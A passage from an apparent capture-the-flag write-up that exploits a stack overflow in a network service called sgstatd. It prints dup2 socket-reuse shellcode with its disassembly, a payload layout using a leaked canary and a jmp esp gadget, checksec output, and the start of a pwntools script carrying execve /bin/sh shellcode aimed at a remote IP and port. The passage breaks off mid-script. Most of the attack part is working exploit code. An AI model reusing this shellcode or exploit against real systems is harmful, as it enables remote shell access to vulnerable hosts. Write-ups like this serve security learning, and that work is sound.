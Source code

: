 This shellcode takes a socket descriptor and duplicates it for socket reuse. I however did not have a hardcoded socket like this example shows and used my offset of [esp-0xc0] in ebx. 

{% highlight bash %}
sgnet ~ echo -ne "\x31\xc9\x31\xdb\x8b\x9c\x24\x40\xff\xff\xff\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5" | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  31DB              xor ebx,ebx
00000004  8B9C2440FFFFFF    mov ebx,[esp-0xc0]
0000000B  6A3F              push byte +0x3f
0000000D  58                pop eax
0000000E  CD80              int 0x80
00000010  41                inc ecx
00000011  80F903            cmp cl,0x3
00000014  75F5              jnz 0xb
{% endhighlight %}

Lastly I needed a /bin/sh shellcode to append to dup2(). I used the 25 byte one from [here](http://shellcodes.antifork.org/alor-i386-reloc.c). 

Our exploit so far is 

	Provide a string of size 104
	Provide the canary 
	Pad with 4 bytes (clobber old EBP)
	jmp esp
	Dup2
	/bin/sh
	paddig to 200 bytes
	
I now had the exploit working on my local machine and was connecting my shell back! However, it was not working on the remote box so I went back to the drawing board and wondered how they were compiling the binary. I discovered that there was a compiled binary in the firmware dump from [part 2](#Part 2) in '/usr/bin'! Sure enough, the offsets were different. Also, confirmation of executable stack was shown . . . note to self: do more enumeration of everything. 

{% highlight bash %}
objdump -d /gnome/sgstatd | grep "ff e4"
 8049366:    c7 45 fc e4 ff ff e4     movl   $0xe4ffffe4,-0x4(%ebp)
 80493b2:    81 f2 e4 ff ff e4        xor    $0xe4ffffe4,%edx
squashfs-root/usr/bin execstack ~ -gdb sgstatd     
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
{% endhighlight %}

Using the instruction at 0x0804936b made my payload work and I was nobody! 

{% highlight python %}
#!/usr/bin/env python                                                                                                                                                                   
from pwn import *
from struct import *

host = '54.233.105.81'
port = '4242'

r = remote(host, port)
r.recvuntil('users')
r.send("X")
r.recvuntil('protected!')

#25 bytes
binsh = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
binsh += "\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#22 bytes